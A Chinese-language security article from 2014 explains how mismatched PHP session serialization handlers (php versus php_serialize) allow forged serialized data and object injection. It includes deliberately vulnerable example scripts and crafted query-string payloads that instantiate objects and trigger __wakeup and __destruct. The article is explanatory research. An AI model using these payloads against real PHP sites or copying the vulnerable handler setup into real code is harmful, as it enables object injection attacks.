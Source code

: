 ### PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.11.11

#### PHP Session 序列化及反序列化处理器
PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：

处理器                         |对应的存储格式
------------------------------|-------------
php                           |键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary                    |键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize <br>(php>=5.5.4)|经过 serialize() 函数反序列处理的数组

#### 配置选项 session.serialize_handler

PHP 提供了 session.serialize_handler 配置选项，通过该选项可以设置序列化及反序列化时使用的处理器：

```php
session.serialize_handler	"php"	PHP_INI_ALL
```

#### 安全隐患

通过上面对存储格式的分析，如果 PHP 在反序列化存储的 $_SESSION 数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据：）

``` php
$_SESSION['ryat'] = '|O:8:"stdClass":0:{}';
```

例如上面的 $_SESSION 数据，在存储时使用的序列化处理器为 php_serialize，存储的格式如下：

``` php
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";}
```

在读取数据时如果用的反序列化处理器不是 php_serialize，而是 php 的话，那么反序列化后的数据将会变成：

``` php
// var_dump($_SESSION);
array(1) {
  ["a:1:{s:4:"ryat";s:20:""]=>
  object(stdClass)#1 (0) {
  }
}
```

可以看到，通过注入 `|` 字符伪造了对象的序列化数据，成功实例化了 stdClass 对象：）

#### 实际利用

##### i）当 session.auto_start＝On 时：

当配置选项 session.auto_start＝On，会自动注册 Session 会话，因为该过程是发生在脚本代码执行前，所以在脚本中设定的包括序列化处理器在内的 session 相关配选项的设置是不起作用的，因此一些需要在脚本中设置序列化处理器配置的程序会在 session.auto_start＝On 时，销毁自动生成的 Session 会话，然后设置需要的序列化处理器，再调用 session_start() 函数注册会话，这时如果脚本中设置的序列化处理器与 php.ini 中设置的不同，就会出现安全问题，如下面的代码：

``` php
//foo.php

if (ini_get('session.auto_start')) {
	session_destroy();
}

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];
```

当第一次访问该脚本，并提交数据如下：

``` php
foo.php?ryat=|O:8:"stdClass":0:{}
```

脚本会按照 php_serialize 处理器的序列化格式存储数据：

``` php
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";}
```

当第二次访问该脚本时，PHP 会按照 php.ini 里设置的序列化处理器反序列化存储的数据，这时如果 php.ini 里设置的是 php 处理器的话，将会反序列化伪造的数据，成功实例化了 stdClass 对象：）

这里需要注意的是，因为 PHP 自动注册 Session 会话是在脚本执行前，所以通过该方式只能注入 PHP 的内置类。

#### ii）当 session.auto_start＝Off 时：

当配置选项 session.auto_start＝Off，两个脚本注册 Session 会话时使用的序列化处理器不同，就会出现安全问题，如下面的代码：

``` php
//foo1.php

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];

//foo2.php

ini_set('session.serialize_handler', 'php');
//or session.serialize_handler set to php in php.ini 
session_start();

class ryat {
	var $hi;
	
	function __wakeup() {
		echo 'hi';
	}
	function __destruct() {
		echo $this->hi;
	}
}
```

当访问 foo1.php 时，提交数据如下：

``` php
foo1.php?ryat=|O:4:"ryat":1:{s:2:"hi";s:4:"ryat";}
```

脚本会按照 php_serialize 处理器的序列化格式存储数据，访问 foo2.php 时，则会按照 php 处理器的反序列化格式读取数据，这时将会反序列化伪造的数据，成功实例化了 ryat 对象，并将会执行类中的 \_\_wakeup 方法和 \_\_destruct 方法：）

#### iii）其他利用方式？

请自行发掘：）
